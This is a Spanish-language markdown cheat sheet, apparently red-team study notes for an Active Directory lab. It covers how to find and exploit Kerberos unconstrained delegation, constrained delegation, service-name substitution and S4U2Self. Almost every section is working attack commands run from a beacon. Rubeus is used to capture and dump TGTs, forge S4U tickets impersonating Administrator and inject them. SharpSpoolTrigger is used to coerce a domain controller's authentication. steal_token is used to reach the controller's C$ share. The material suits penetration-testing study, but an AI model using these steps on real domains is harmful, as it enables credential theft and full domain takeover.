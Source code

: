 
## Unconstrained Delegation

- Como identificarlo
```powershell
beacon> ldapsearch "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname


#Significa que un admin en WS puede pivotar a DC si saca TGT de algun admin.
sAMAccountName: LON-DC-1$
--------------------
sAMAccountName: LON-WS-1$
```

### ⚔️ ¿Cómo explotarlo?

> **Ten acceso local admin**
>**Espera a que se conecte un usuario con privilegios**, como un Domain Admin.
>Usa Rubeus para capturar su TGT desde memoria:

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap


beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:<base64ticket>

#Parar Rubeus
beacon> jobs
beacon> jobkill 0
```

## Constrained Delegation

- Como identificarlo
```powershell
beacon> ldapsearch "(&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*))" --attributes samAccountName,msDS-AllowedToDelegateTo

sAMAccountName: LON-WS-1$
msDS-AllowedToDelegateTo: cifs/lon-fs-1.contoso.com, cifs/lon-fs-1
```

### ⚔️ ¿Cómo explotarlo?

> **Ten acceso local admin**

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

#Sacas el TGT DEL ws-1
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap


beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:cifs/lon-fs-1 /ticket:<TGT_kirbi> /impersonateuser:Administrator /nowrap


beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:<ticket_kirbi>

#Parar Rubeus
beacon> steal_token <PID>
beacon> ls \\lon-fs-1\c$
```


## Cambio de Servicio

- Es lo **mismo que CONSTRAINED** pero cambiando el servicio para que puedo pivotar.
```powershell
beacon> ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo

sAMAccountName: LON-WS-1$
msDS-AllowedToDelegateTo: time/lon-dc-1.contoso.com, time/lon-dc-1
```

### ⚔️ ¿Cómo explotarlo?

> **Ten acceso local admin**

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

#Sacas el TGT DEL ws-1
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap


beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:time/lon-dc-1 /altservice:cifs /ticket:[TGT] /impersonateuser:Administrator /nowrap


beacon>execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]

#Parar Rubeus
beacon> steal_token <PID>
beacon> ls \\lon-fs-1\c$
```


## S4u2Self

- Es lo **mismo que UNCONSTRAINED** pero forzando que se conecte a nuestro modo monitor.
```powershell
beacon> ldapsearch "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap

#Desde el beacon medio, forzamos esta autenticacion hasta que aparezca el de dc-1
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe lon-dc-1 lon-ws-1
```

### ⚔️ ¿Cómo explotarlo?

> **Ten acceso local admin**

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/lon-dc-1 /ticket:[TGT_base64] /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]


beacon> run klist
beacon> ls \\lon-dc-1\c$
```

